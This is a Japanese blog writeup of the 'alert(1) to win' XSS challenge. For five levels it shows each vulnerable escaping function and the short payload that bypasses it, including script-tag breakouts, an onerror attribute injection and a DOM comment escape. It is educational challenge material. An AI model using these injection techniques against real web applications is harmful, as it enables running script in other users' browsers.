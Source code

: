 ```yaml
---
title: alert(1) to win Writeup
date: 2019-01-30
tags: ["XSS", "Challenge", "Security"]
excerpt: alert(1) to win Writeup
---
```

# Alert(1) to win
URL：https://alf.nu/alert(1)  
XSS Challengeができるサイトです。  
スコアの高さは文字数と反比例なので、コードゴルフみたいな一面もあります。


# 問題一覧
- [x] [Warmup](#Warmup)
- [x] [Adobe](#Adobe)
- [x] [JSON](#JSON)
- [x] [Markdown](#Markdown)
- [x] [DOM](#DOM) [](#)
- [x] [Callback](#Callback)
- [x] [Skandia](#Skandia)
- [x] [Template](#Template)
- [x] [JSON2](#JSON2)
- [x] [Skandia2](#Skandia2)
- [ ] [iframe](#iframe)
- [ ] [TI(S)M](#TISM)
- [ ] [JSON3](#JSON3)
- [x] [Skandia3](#Skandia3)
- [ ] [RFC4627](#RFC4627)
- [ ] [Well](#Well)
- [x] [No](#No)
- [ ] [K'Z'K](#K'Z'K)
- [ ] [K'Z'K-2](#K'Z'K-2)
- [ ] [K'Z'K-3](#K'Z'K-3)
- [ ] [Fruit](#Fruit)
- [ ] [Fruit2](#Fruit2)
- [ ] [Fruit3](#Fruit3)
- [ ] [Capitals](#Capitals)
- [ ] [Quine](#Quine)
- [ ] [Entities](#Entities)

## Warmup
```Javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```
何のエスケープもない普通の問題です。12文字。
```
");alert(1,"
```

## Adobe
```Javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
`"`が`\"`にエスケープされます。  
`\"`と入力すると`\\"`となり、文字列として`console.log`を閉じることができます。  
末尾をコメントアウトして、14文字。
```
\");alert(1)//
```
## JSON
```Javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
`JSON.stringify`を用いたエスケープです。  
一度タグを閉じてから末尾をコメントアウトすると最短。27文字。
```
</script><script>alert(1)//
```

## Markdown
```Javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
サンプルで用意されている`[[img123|Description]]`をいれると、６行目の置換により
```html
<img alt="Description" src="img123.gif">
```
となります。  
５行目では`http://S+`の形の文字列を`<a>`タグに変換しているため、後半を任意のURLに書き換えることで、以下のように`<img>`タグを閉じることができます。  
例：`Input：[[img123|http://xxx]]`
```html
<img alt="<a href="http://xxx" src="img123.gif">">http://xxx]]</a>
```
開発者ツールでこの部分を検証してみると以下のようになっており、`<img>`タグに`http:`属性と`xxx`属性が付与されたことがわかります。  
![markdown.png](https://github.com/mrypq/boilerplate/blob/master/source/markdown.png)  
htmlにおける`//`が区切り文字となっているためこのようなことが起こります。  
今回は存在しないgifの読み込みエラーが発生するため、`onerror`属性にスクリプトを仕込んだところ発火しました。  
末尾をコメントアウトで排除し、文字数削って31文字。
```
[[x|http://onerror=alert(1)//]]
```

## DOM
```Javascript
function escape(s) {
 // Slightly too lazy to make two input fields.
 // Pass in something like "TextNode#foo"
 var m = s.split(/#/);

 // Only slightly contrived at this point.
 var a = document.createElement('div');
 a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
 return a.innerHTML;
}
```
文字列Sを`#`で区切り、前半を`m[0]`後半を`m[1]`に代入しています。  
DOMの`document.create`から始まるメソッドを調べたところ、`document.createComment()`というメソッドがそれっぽかった。  
>**Document.createComment()**   
新しいコメントノードを生成して、返します。

参照：https://developer.mozilla.org/ja/docs/Web/API/Document  
`Comment#hoge`を入力すると`<!--hoge-->`が出力されるので、文頭のコメントアウトを閉じ、中身を発火させるhtmlに書き換えれば終了。iframeつかって32文字。
```
Comment#><iframe onload=alert(1)
```
Firefoxなどでは`svg/onload`が使えるのでさらに短くなるはずだけど、うまくいきませんでした。何故…。

## 以下随時更新予定
